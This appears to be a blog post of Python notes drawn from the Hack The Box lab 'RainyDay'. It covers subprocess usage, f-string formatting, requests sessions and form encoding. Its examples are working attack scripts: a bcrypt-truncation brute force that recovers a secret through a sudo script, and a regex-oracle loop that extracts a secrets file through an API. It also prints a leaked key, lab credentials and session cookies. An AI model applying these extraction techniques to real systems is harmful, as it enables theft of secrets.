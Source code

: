 +++
author = "Frenchie"
title = "RainyDay HTB"
date = "2023-02-23"
description = "RainyDay HTB"
tags = [
    "Gaming",
    "Hacking",
]
showthedate = false
+++

> The os.popen() function and the subprocess.Popen() function are both used for executing external commands in Python, but they have some differences that make one better than the other in different situations.

<!--more-->

os.popen() is an older function that is used to open a pipe to a command and read or write to the command's standard input or output. It is a higher-level function that abstracts away some of the details of process management. However, it is generally not recommended to use os.popen() for new code, as it is considered to be a legacy function.

subprocess.Popen() is a newer and more powerful function that provides more fine-grained control over the execution of external commands. It allows you to specify command-line arguments, environment variables, working directory, and more. It also provides more options for handling input and output, including piping, redirection, and buffering.

In general, subprocess.Popen() is considered to be the preferred function for executing external commands in modern Python code. It is more flexible and provides better control over the process execution. However, os.popen() may still be useful in certain situations where you need to quickly execute a simple command and capture its output.

In summary, if you need to execute external commands with more advanced options and greater control, subprocess.Popen() is generally the better choice. If you just need to execute a simple command and capture its output, os.popen() may still be useful, but it is recommended to use subprocess.Popen() instead.

### My First Trial
using `subprocess.communicate` to send the test_word.

```python
import bcrypt
import string
import subprocess
import re

secret = ''
found = False

while not found:
    p = subprocess.Popen(["sudo", "/opt/hash_system/hash_password.py"], stdin=subprocess.PIPE, stdout=subprocess.PIPE)
    test_word = f"{'🎅'*(17-len(secret)//4)}{'A'* (3-len(secret)%4)}"
    print(f"{test_word=}", end="\r")
    output, err = p.communicate(test_word.encode("utf-8"))
    output_text = (output.decode("utf-8"))
    rainy_hash = re.search(r"Hash: ([\w|\W]*)\n", output_text).group(1)

    for c in string.printable[:-5]:
        if bcrypt.checkpw(test_word.encode() + secret.encode() + c.encode(), rainy_hash.encode()):
            print(f"{c=}", end="\r")
            secret += c
            print(f"{secret=}", end="\r")
            break
        if c == string.printable[-6]:
            print(f"Reaching end of printable strings. Final result {secret}")
            found = True
```

### from 0XDF
using `subprocess.run` and `input=`test_word.
```python
import bcrypt
import subprocess
import string

santa = "🎅"
secret = ""


while True:
    pass_length = 71 - len(secret)
    santa_num = pass_length // 4
    ah_len = pass_length % 4

    test_word = f"{'🎅'*santa_num}{'A'*ah_len}"
    out = subprocess.run(["sudo", "/opt/hash_system/hash_password.py"], input=test_word.encode(), stdout=subprocess.PIPE)

    for c in string.printable[:-6]:
        if bcrypt.checkpw((test_word+secret+c).encode(), out.stdout.split(b" ")[-1].strip()):
            print(f"\r{secret=}", end="")
            secret += c
            break

    else:
        break

print(f"\r{secret=:<30}")
```

### from IPPSEC
using `os.popen` with `echo` and piping.
```python
# bcrypt max is 72 bytes
required_length = 71 - len(append)
i = get_padding(required_length)
print(f"[+] Getting Hash for {i}")
out = os.popen(f"echo '{i}' | sudo /opt/hash_system/hash_password.py").read()
h = out[out.index("Hash: ") + 6:].strip()
print(f"[+] Hash: {h}")
return h
```

---
## String Format
```python
num = 132546
print(f"Minimum {num=:,d} per round.")
print(f"Minimum {num=:_.2f} per round.")
print(f"Minimum {num=:,.2f} per round.")
print(f"Minimum {num=:<15,.2f} per round.")
print(f"Minimum {num=:*^15,.2f} per round.")
print(f"Minimum {num=:>12,d} per round.")
```

result:
```text
>>> num = 132546
>>> print(f"Minimum {num=:,d} per round.")
Minimum num=132,546 per round.
>>> print(f"Minimum {num=:_.2f} per round.")
Minimum num=132_546.00 per round.
>>> print(f"Minimum {num=:,.2f} per round.")
Minimum num=132,546.00 per round.
>>> print(f"Minimum {num=:<15,.2f} per round.")
Minimum num=132,546.00      per round.
>>> print(f"Minimum {num=:*^15,.2f} per round.")
Minimum num=**132,546.00*** per round.
>>> print(f"Minimum {num=:>12,d} per round.")
Minimum num=     132,546 per round.
```

---
## re-use http connection

### Session Objects
The Session object allows you to persist certain parameters across requests. It also persists cookies across all requests made from the Session instance, and will use urllib3’s connection pooling. So if you’re making several requests to the same host, the underlying TCP connection will be reused, which can result in a **significant performance increase**. [read](https://requests.readthedocs.io/en/latest/user/advanced/#session-objects)

#### without re-use connection
```python
while not completed:
    for c in string.printable:
        try:
            test = pattern + c
            json = {"file": "/var/www/rainycloud/secrets.py", "type": "CUSTOM", "pattern": re.escape(test)}

            resp = requests.post(url=url, cookies=cookies, data=json, proxies=proxy)

            print(f"\r{display}{c}", end="")
            if resp.json().get("result"):
                pattern += c
                display = '' if c == "\n" else display + c
                break
```

it took 267 secs to complete this sentence `SECRET_KEY = 'f77dd59f50ba412fcfbd3e653f8f3f2ca97224dd53cf6304b4c86658a75d8f67'`.

#### re-use connection
```python
sess = requests.session()
sess.proxies.update(proxy)
sess.post("http://dev.rainycloud.htb/login", data={"username": "gary", "password": "rubberducky"})

while not completed:
    for c in string.printable:
        try:
            test = pattern + c
            json = {"file": "/var/www/rainycloud/secrets.py", "type": "CUSTOM", "pattern": re.escape(test)}

            resp = sess.post(url=url, data=json)

            print(f"\r{display}{c}", end="")
            if resp.json().get("result"):
                pattern += c
                display = '' if c == "\n" else display + c
                break
```

it took 83 secs to complete the same sentence.

---
## data=payload vs json=payload
with `resp = sess.post(url=url, json=json)`, the intercepted burp is:
```text
POST /api/healthcheck HTTP/1.1
Host: dev.rainycloud.htb
User-Agent: python-requests/2.28.2
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y_tNHQ.yokTJAhLAZa_FwOjud2m8tATqMk
Content-Length: 76
Content-Type: application/json

{"file": "/var/www/rainycloud/secrets.py", "type": "CUSTOM", "pattern": "0"}
```

with `resp = sess.post(url=url, data=json)`, the request is:
```text
POST /api/healthcheck HTTP/1.1
Host: dev.rainycloud.htb
User-Agent: python-requests/2.28.2
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y_tM8w.tTpfZy_kMDqjXx-LkoX50kDmp0U
Content-Length: 65
Content-Type: application/x-www-form-urlencoded

file=%2Fvar%2Fwww%2Frainycloud%2Fsecrets.py&type=CUSTOM&pattern=l
```

Particulary in this case, the server won't accept content-type in json. I need to use `Content-Type: application/x-www-form-urlencoded` and proper requests syntax is `data=payload`.